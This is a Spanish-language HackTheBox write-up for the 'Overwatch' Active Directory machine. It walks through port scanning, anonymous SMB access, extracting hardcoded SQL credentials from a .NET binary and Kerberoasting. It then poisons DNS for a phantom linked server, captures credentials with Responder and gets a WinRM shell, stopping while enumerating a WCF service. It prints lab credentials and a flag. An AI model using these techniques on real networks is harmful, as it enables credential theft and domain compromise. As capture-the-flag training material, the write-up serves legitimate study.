# Overwatch HackTheBox (Intermediate)

## Contexto de la maquina

### Trayectoria Overwatch

<figure><figcaption></figcaption></figure>

### Descripción

La máquina **Overwatch** corresponde a un entorno **Windows Server 2022** configurado como **Controlador de Dominio Active Directory**, que expone múltiples servicios críticos como **Kerberos, LDAP, SMB, WinRM y MSSQL**. El reto combina **ingeniería inversa**, **abuso de servicios corporativos**, **Active Directory attacks** y **explotación de servicios WCF** para lograr la escalada completa hasta **NT AUTHORITY\SYSTEM**.

**Objetivo**

Comprometer el dominio obteniendo acceso inicial, escalar privilegios dentro del entorno Active Directory y finalizar con control total del sistema.

**Tipo de máquina**

* Windows Server
* Active Directory
* MSSQL
* Servicios internos corporativos (WCF)

**Habilidades y técnicas evaluadas**

* Enumeración avanzada de servicios Windows
* Análisis de binarios .NET
* Extracción de credenciales hardcodeadas
* Kerberoasting
* MSSQL abuse
* DNS abuse en Active Directory
* Credential interception (Responder)
* WinRM lateral movement
* Análisis WCF / SOAP
* Command Injection
* Privilege Escalation a SYSTEM

### Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Escaneo de puertos

Comenzamos realizando un escaneo completo de puertos TCP para identificar los servicios expuestos en la máquina objetivo.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

Una vez identificados los puertos abiertos, lanzamos un escaneo más detallado sobre ellos para obtener versiones y scripts por defecto.

```shell
nmap -sCV -p<PORTS> <IP>
```

Resultado:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-26 04:13 -0500
Nmap scan report for 10.129.16.137
Host is up (0.040s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  tcpwrapped
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-26 09:13:46Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: overwatch.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: overwatch.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-01-26T09:15:14+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: OVERWATCH
|   NetBIOS_Domain_Name: OVERWATCH
|   NetBIOS_Computer_Name: S200401
|   DNS_Domain_Name: overwatch.htb
|   DNS_Computer_Name: S200401.overwatch.htb
|   DNS_Tree_Name: overwatch.htb
|   Product_Version: 10.0.20348
|_  System_Time: 2026-01-26T09:14:35+00:00
| ssl-cert: Subject: commonName=S200401.overwatch.htb
| Not valid before: 2025-12-07T15:16:06
|_Not valid after:  2026-06-08T15:16:06
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
6520/tcp  open  ms-sql-s      Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   10.129.16.137:6520: 
|     Target_Name: OVERWATCH
|     NetBIOS_Domain_Name: OVERWATCH
|     NetBIOS_Computer_Name: S200401
|     DNS_Domain_Name: overwatch.htb
|     DNS_Computer_Name: S200401.overwatch.htb
|     DNS_Tree_Name: overwatch.htb
|_    Product_Version: 10.0.20348
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-01-26T08:24:23
|_Not valid after:  2056-01-26T08:24:23
|_ssl-date: 2026-01-26T09:15:14+00:00; 0s from scanner time.
| ms-sql-info: 
|   10.129.16.137:6520: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 6520
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
58407/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
58408/tcp open  msrpc         Microsoft Windows RPC
61971/tcp open  tcpwrapped
62135/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: S200401; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-01-26T09:14:38
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.41 seconds
```

Del resultado se puede inferir claramente que estamos ante un **Controlador de Dominio Windows**, ya que expone servicios característicos como:

* **Kerberos** (88)
* **LDAP / LDAPS** (389, 636, 3268, 3269)
* **SMB** (445)
* **WinRM** (5985)
* **RDP** (3389)
* **MSSQL Server** (6520)

Además, se identifican los siguientes nombres de dominio y host:

* `overwatch.htb`
* `S200401.overwatch.htb`

Por lo tanto, añadimos estas entradas al archivo `/etc/hosts` para facilitar la resolución de nombres durante la enumeración.

```shell
nano /etc/hosts

#Dentro del nano
<IP>             S200401.overwatch.htb overwatch.htb
```

## Enumeración SMB y análisis del binario

<figure><figcaption></figcaption></figure>

Iniciamos la enumeración de recursos compartidos SMB de forma anónima.

```shell
smbclient -L //<IP>/ -N
```

Resultado:

```
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	software$       Disk      
	SYSVOL          Disk      Logon server share
```

Llama especialmente la atención el recurso **`software$`**, ya que es accesible sin autenticación. Procedemos a conectarnos de forma anónima.

```shell
smbclient //<IP>/software$ -N
```

Resultado:

```
Try "help" to get a list of possible commands.
smb: \>
```

Una vez dentro, listamos el contenido y encontramos un directorio llamado **`Monitoring`**, que contiene varios binarios y librerías asociadas a una aplicación .NET:

```
  .                                  DH        0  Fri May 16 21:32:43 2025
  ..                                 DH        0  Fri May 16 21:27:07 2025
  EntityFramework.dll                AH  4991352  Thu Apr 16 16:38:42 2020
  EntityFramework.SqlServer.dll      AH   591752  Thu Apr 16 16:38:56 2020
  EntityFramework.SqlServer.xml      AH   163193  Thu Apr 16 16:38:56 2020
  EntityFramework.xml                AH  3738289  Thu Apr 16 16:38:40 2020
  Microsoft.Management.Infrastructure.dll     AH    36864  Mon Jul 17 10:46:10 2017
  overwatch.exe                      AH     9728  Fri May 16 21:19:24 2025
  overwatch.exe.config               AH     2163  Fri May 16 21:02:30 2025
  overwatch.pdb                      AH    30208  Fri May 16 21:19:24 2025
  System.Data.SQLite.dll             AH   450232  Sun Sep 29 16:41:18 2024
  System.Data.SQLite.EF6.dll         AH   206520  Sun Sep 29 16:40:06 2024
  System.Data.SQLite.Linq.dll        AH   206520  Sun Sep 29 16:40:42 2024
  System.Data.SQLite.xml             AH  1245480  Sat Sep 28 14:48:00 2024
  System.Management.Automation.dll     AH   360448  Mon Jul 17 10:46:10 2017
  System.Management.Automation.xml     AH  7145771  Mon Jul 17 10:46:10 2017
  x64                                DH        0  Fri May 16 21:32:33 2025
  x86                                DH        0  Fri May 16 21:32:33 2025

		7147007 blocks of size 4096. 1795121 blocks available
```

El archivo **`overwatch.exe`** resulta especialmente interesante, por lo que descargamos todo el contenido para analizarlo localmente.

```shell
prompt off
mget *
```

### Análisis del binario `overwatch.exe`

Para analizar el binario, procedemos a **decompilarlo** utilizando `monodis`.

```shell
sudo apt install mono-utils
monodis overwatch.exe --output=overwatch.il
```

El archivo generado contiene el **código IL completo** de la aplicación. Realizamos una búsqueda básica de cadenas sensibles como usuarios, contraseñas o cadenas de conexión.

<figure><figcaption></figcaption></figure>

```shell
grep -i "ldstr" overwatch.il | grep -i -A2 -B2 "password\|pass\|user\|sql"
```

Resultado:

```
IL_0036:  ldstr "Out-String"
          IL_00a9:  ldstr "Error: "
        IL_0001:  ldstr "Server=localhost;Database=SecurityLogs;User Id=sqlsvc;Password=TI0LKcfHzZw1Vv;"
        IL_000b:  ldstr "ProcessName"
        IL_0021:  ldstr "ProcessStart"
--
        IL_001a:  ldstr "Service is running..."
        IL_0049:  ldstr "Press Enter to exit..."
        IL_0007:  ldstr "Microsoft\\Edge\\User Data\\Default\\History"
            IL_0029:  ldstr "Server=localhost;Database=SecurityLogs;User Id=sqlsvc;Password=TI0LKcfHzZw1Vv;"
                IL_0047:  ldstr "Data Source="
                IL_004d:  ldstr ";Version=3;"
```

Se identifican credenciales válidas para el usuario **`sqlsvc`**, utilizadas por la aplicación para conectarse a una base de datos SQL.

Antes de acceder directamente al servicio MSSQL, validamos estas credenciales contra otros servicios del dominio.

```shell
netexec smb overwatch.htb -u sqlsvc -p 'TI0LKcfHzZw1Vv'
```

Resultado:

```
SMB         10.129.16.137   445    S200401          [*] Windows Server 2022 Build 20348 x64 (name:S200401) (domain:overwatch.htb) (signing:True) (SMBv1:False) 
SMB         10.129.16.137   445    S200401          [+] overwatch.htb\sqlsvc:TI0LKcfHzZw1Vv
```

Las credenciales son válidas, por lo que procedemos a enumerar el dominio con **BloodHound**.

### Enumeración Active Directory con BloodHound

Recolectamos información del dominio utilizando `bloodhound-python`.

```shell
bloodhound-python -d overwatch.htb -u sqlsvc -p 'TI0LKcfHzZw1Vv' -ns <IP> -c All --zip
```

Resultado:

```
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: overwatch.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: s200401.overwatch.htb
INFO: Testing resolved hostname connectivity dead:beef::120
INFO: Trying LDAP connection to dead:beef::120
INFO: Testing resolved hostname connectivity dead:beef::96ab:8c90:517a:6ac0
INFO: Trying LDAP connection to dead:beef::96ab:8c90:517a:6ac0
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 6 computers
INFO: Connecting to LDAP server: s200401.overwatch.htb
INFO: Testing resolved hostname connectivity dead:beef::120
INFO: Trying LDAP connection to dead:beef::120
INFO: Testing resolved hostname connectivity dead:beef::96ab:8c90:517a:6ac0
INFO: Trying LDAP connection to dead:beef::96ab:8c90:517a:6ac0
INFO: Found 106 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: S200401.overwatch.htb
INFO: Done in 00M 09S
INFO: Compressing output into 20260126051505_bloodhound.zip
```

Una vez generado el archivo `.zip`, lo importamos en una instancia local de **BloodHound** desplegada mediante Docker.

## BloodHound

Ahora vamos a instalar `BloodHound` de forma rapida en un `docker`:

URL = [Download BloodHound en Docker](https://bloodhound.specterops.io/get-started/quickstart/community-edition-quickstart)

```shell
wget https://github.com/SpecterOps/bloodhound-cli/releases/latest/download/bloodhound-cli-linux-amd64.tar.gz
tar -xvzf bloodhound-cli-linux-amd64.tar.gz
./bloodhound-cli install
```

Info:

```
..............................<RESTO DE INFO>......................................
Container bloodhound-graph-db-1  Creating
 Container bloodhound-app-db-1  Creating
 Container bloodhound-graph-db-1  Created
 Container bloodhound-app-db-1  Created
 Container bloodhound-bloodhound-1  Creating
 Container bloodhound-bloodhound-1  Created
 Container bloodhound-app-db-1  Starting
 Container bloodhound-graph-db-1  Starting
 Container bloodhound-app-db-1  Started
 Container bloodhound-graph-db-1  Started
 Container bloodhound-graph-db-1  Waiting
 Container bloodhound-app-db-1  Waiting
 Container bloodhound-graph-db-1  Healthy
 Container bloodhound-app-db-1  Healthy
 Container bloodhound-bloodhound-1  Starting
 Container bloodhound-bloodhound-1  Started
[+] BloodHound is ready to go!
[+] You can log in as `admin` with this password: bnf8XsztC4Hypx6nMV5eSlhHpuDfEWgH
[+] You can get your admin password by running: bloodhound-cli config get default_password
[+] You can access the BloodHound UI at: http://127.0.0.1:8080/ui/login
```

Ahora que esta importado en nuestro `docker` y levantado podremos acceder a el desde la siguiente `URL`.

```
URL = http://127.0.0.1:8080/ui/login
```

Nos logueamos con las credenciales propocionadas por la herramienta, entrando nos pedira cambiar las credenciales y ya nos metera dentro:

```
User: admin
Pass: bnf8XsztC4Hypx6nMV5eSlhHpuDfEWgH
```

Una vez dentro vamos a importar el `.zip` y tendremos que esperar un poco a que cargue todos los datos, despues cuando vayamos al `dashboard` principal veremos todos los datos, vamos a investigar el usuario `sqlsvc` a ver que tiene.

### Kerberoasting

<figure><figcaption></figcaption></figure>

Tras revisar BloodHound y no encontrar caminos inmediatos de escalada, decidimos realizar **Kerberoasting** enumerando todos los usuarios del dominio vía LDAP.

```shell
ldapsearch -H ldap://<IP> -x -D 'sqlsvc@overwatch.htb' -w 'TI0LKcfHzZw1Vv' -b "dc=overwatch,dc=htb" "(objectclass=user)" sAMAccountName | grep "sAMAccountName:" | awk '{print $2}' > all_users.txt # Para extraer los usuarios del dominio

impacket-GetUserSPNs overwatch.htb/sqlsvc:TI0LKcfHzZw1Vv -dc-ip <IP> -usersfile all_users.txt -request > data.txt # Para guardar la info en un TXT

grep '^\$krb5tgs' data.txt > hashes_krbt.txt # Para filtrar solamente por los hashes obtenidos
```

Aunque se obtienen hashes relevantes (incluyendo máquinas y servicios SQL), **no es posible crackearlos**, por lo que continuamos por otra vía.

## Escalate user sqlmgmt

### Acceso a MSSQL y escalada lateral

Accedemos al servidor **MSSQL** utilizando autenticación integrada de Windows con las credenciales previamente obtenidas del usuario `sqlsvc`.

```shell
impacket-mssqlclient 'overwatch.htb/sqlsvc:TI0LKcfHzZw1Vv'@10.129.16.137 -port 6520 -windows-auth
```

Resultado:

```
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(S200401\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(S200401\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (OVERWATCH\sqlsvc  guest@master)>
```

Una vez dentro del entorno MSSQL, comenzamos la enumeración básica del servidor. Uno de los primeros pasos es listar los **linked servers** configurados, ya que estos pueden permitir movimientos laterales o ejecución remota de consultas.

```sql
EXEC sp_linkedservers;
```

Resultado:

```
SRV_NAME             SRV_PROVIDERNAME   SRV_PRODUCT   SRV_DATASOURCE       SRV_PROVIDERSTRING   SRV_LOCATION   SRV_CAT   
------------------   ----------------   -----------   ------------------   ------------------   ------------   -------   
S200401\SQLEXPRESS   SQLNCLI            SQL Server    S200401\SQLEXPRESS   NULL                 NULL           NULL      
SQL07                SQLNCLI            SQL Server    SQL07                NULL                 NULL           NULL
```

Aquí destaca el servidor vinculado **`SQL07`**, el cual, tras comprobarlo, **no existe realmente dentro del dominio**. Esta situación resulta especialmente interesante, ya que abre la puerta a un posible **abuso de resolución DNS**.

### Abuso de DNS y captura de credenciales

<figure><figcaption></figcaption></figure>

Aunque inicialmente podemos enumerar directorios del sistema mediante MSSQL, el mayor punto de interés sigue siendo el identificador **`SQL07`**. Tras confirmar que **no hay ningún host real asociado a ese nombre**, decidimos explotar esta inconsistencia.

La idea es **crear un registro DNS malicioso** que haga que el nombre **`SQL07`** resuelva directamente a nuestra **IP atacante**. De esta forma, cualquier intento del servidor MSSQL de comunicarse con `SQL07` será redirigido hacia nuestro sistema.

Dado que el entorno confía plenamente en la resolución de nombres interna, y nosotros controlamos el registro DNS, **cualquier conexión, autenticación o tráfico dirigido a `SQL07` llegará a nuestra máquina**. Esto nos permitirá **capturar credenciales** forzando posteriormente una conexión desde MSSQL.

Para llevar a cabo esta técnica utilizamos la herramienta **`dnstool.py`**, incluida en el repositorio `krbrelayx`.

URL = [GitHub Kit Tools krbrelayx](https://github.com/dirkjanm/krbrelayx?tab=readme-ov-file#dnstoolpy)

Clonamos el repositorio:

```shell
git clone https://github.com/dirkjanm/krbrelayx.git
cd krbrelayx/
```

A continuación, creamos el registro DNS malicioso apuntando `SQL07` a nuestra IP atacante:

```shell
python3 dnstool.py -u 'overwatch.htb\sqlsvc' -p 'TI0LKcfHzZw1Vv' -r SQL07 -a add -t A -d <IP_ATTACKER> <IP_VICTIM>
```

Resultado:

```
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```

<figure><figcaption></figcaption></figure>

El registro se crea correctamente. Ahora nos ponemos a la escucha con **Responder** para capturar posibles autenticaciones entrantes.

```shell
responder -I tun0
```

Con Responder activo, forzamos una conexión desde MSSQL hacia el linked server inexistente `SQL07`:

```sql
EXEC ('') AT SQL07;
```

Aunque MSSQL devuelve un error, el intento de conexión provoca una autenticación automática que es capturada por Responder:

```
[MSSQL] Cleartext Client   : 10.129.16.137
[MSSQL] Cleartext Hostname : SQL07 ()
[MSSQL] Cleartext Username : sqlmgmt
[MSSQL] Cleartext Password : bIhBbzMMnB82yx
```

De esta forma obtenemos credenciales en **texto claro** del usuario **`sqlmgmt`**.

Validamos las credenciales contra el servicio WinRM:

```shell
netexec winrm overwatch.htb -u sqlmgmt -p 'bIhBbzMMnB82yx'
```

Resultado:

```
WINRM       10.129.16.137   5985   S200401          [*] Windows Server 2022 Build 20348 (name:S200401) (domain:overwatch.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.16.137   5985   S200401          [+] overwatch.htb\sqlmgmt:bIhBbzMMnB82yx (Pwn3d!)
```

### WinRM (sqlmgmt)

Dado que el usuario puede autenticarse vía WinRM, procedemos a obtener una shell interactiva.

```shell
evil-winrm -i <IP> -u sqlmgmt -p 'bIhBbzMMnB82yx'
```

Resultado:

```
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\sqlmgmt\Documents> whoami
overwatch\sqlmgmt
```

Ya tenemos acceso como el usuario `sqlmgmt`, por lo que leemos la flag de usuario:

> user.txt

```
50fc89a0481937328edfc9dd83532e99
```

## Escalate Privileges

<figure><figcaption></figcaption></figure>

Recordando la fase inicial de enumeración, previamente habíamos identificado un binario interesante llamado **`overwatch.exe`**. Procedemos a localizarlo nuevamente en el sistema.

```powershell
Get-ChildItem -Path C:\ -Recurse -Filter "overwatch.exe" -ErrorAction SilentlyContinue -Force
```

Resultado:

```
Directory: C:\Software\Monitoring


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-h--         5/16/2025   6:19 PM           9728 overwatch.exe
```

El binario se encuentra en `C:\Software\Monitoring`. Al listar el contenido de la carpeta con archivos ocultos, observamos que coincide exactamente con lo visto anteriormente en el recurso SMB.

```powershell
Get-ChildItem -Force
```

Resultado:

```
Directory: C:\Software\Monitoring


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d--h--         5/16/2025   6:32 PM                x64
d--h--         5/16/2025   6:32 PM                x86
-a-h--         4/16/2020   1:38 PM        4991352 EntityFramework.dll
-a-h--         4/16/2020   1:38 PM         591752 EntityFramework.SqlServer.dll
-a-h--         4/16/2020   1:38 PM         163193 EntityFramework.SqlServer.xml
-a-h--         4/16/2020   1:38 PM        3738289 EntityFramework.xml
-a-h--         7/17/2017   7:46 AM          36864 Microsoft.Management.Infrastructure.dll
-a-h--         5/16/2025   6:19 PM           9728 overwatch.exe
-a-h--         5/16/2025   6:02 PM           2163 overwatch.exe.config
-a-h--         5/16/2025   6:19 PM          30208 overwatch.pdb
-a-h--         9/29/2024   1:41 PM         450232 System.Data.SQLite.dll
-a-h--         9/29/2024   1:40 PM         206520 System.Data.SQLite.EF6.dll
-a-h--         9/29/2024   1:40 PM         206520 System.Data.SQLite.Linq.dll
-a-h--         9/28/2024  11:48 AM        1245480 System.Data.SQLite.xml
-a-h--         7/17/2017   7:46 AM         360448 System.Management.Automation.dll
-a-h--         7/17/2017   7:46 AM        7145771 System.Management.Automation.xml
```

### Servicio WCF expuesto

Al revisar el archivo de configuración `overwatch.exe.config`, encontramos la siguiente línea:

```
<add baseAddress="http://overwatch.htb:8000/MonitorService" />
```

Esto indica que el binario expone un servicio en el endpoint `MonitorService`. Realizamos una petición para comprobar su estado:

```powershell
Invoke-WebRequest -Uri http://localhost:8000/MonitorService -UseBasicParsing
```

Resultado:

```
StatusCode        : 200
StatusDescription : OK
Content           : <HTML lang="en"><HEAD><link rel="alternate" type="text/xml" href="http://overwatch.htb:8000/MonitorService?disco"/><STYLE type="text/css">#content{ FONT-SIZE: 0.7em; PADDING-BOTTOM: 2em; MARGIN-LEFT: ...
RawContent        : HTTP/1.1 200 OK
                    Content-Length: 3077
                    Content-Type: text/html; charset=UTF-8
                    Date: Mon, 26 Jan 2026 15:28:20 GMT
                    Server: Microsoft-HTTPAPI/2.0

                    <HTML lang="en"><HEAD><link rel="alternate" type="t...
Forms             :
Headers           : {[Content-Length, 3077], [Content-Type, text/html; charset=UTF-8], [Date, Mon, 26 Jan 2026 15:28:20 GMT], [Server, Microsoft-HTTPAPI/2.0]}
Images            : {}
InputFields       : {}
Links             : {@{outerHTML=<A HREF="http://overwatch.htb:8000/MonitorService?wsdl">http://overwatch.htb:8000/MonitorService?wsdl</A>; tagName=A; HREF=http://overwatch.htb:8000/MonitorService?wsdl}, @{outerHTML=<A
                    HREF="http://overwatch.htb:8000/MonitorService?singleWsdl">http://overwatch.htb:8000/MonitorService?singleWsdl</A>; tagName=A; HREF=http://overwatch.htb:8000/MonitorService?singleWsdl}}
ParsedHtml        :
RawContentLength  : 3077
```

El endpoint responde con **HTTP 200 OK** y expone enlaces a:

* `?disco`
* `?wsdl`
* `?singleWsdl`

Esto confirma que se trata de un **servicio WCF (Windows Communication Foundation)** que expone su **WSDL**, permitiendo la interacción directa como cliente.

Solicitamos el WSDL:

```powershell
(Invoke-WebRequest -Uri http://localhost:8000/MonitorService?wsdl -UseBasicParsing).Content
```

Resultado:

```xml
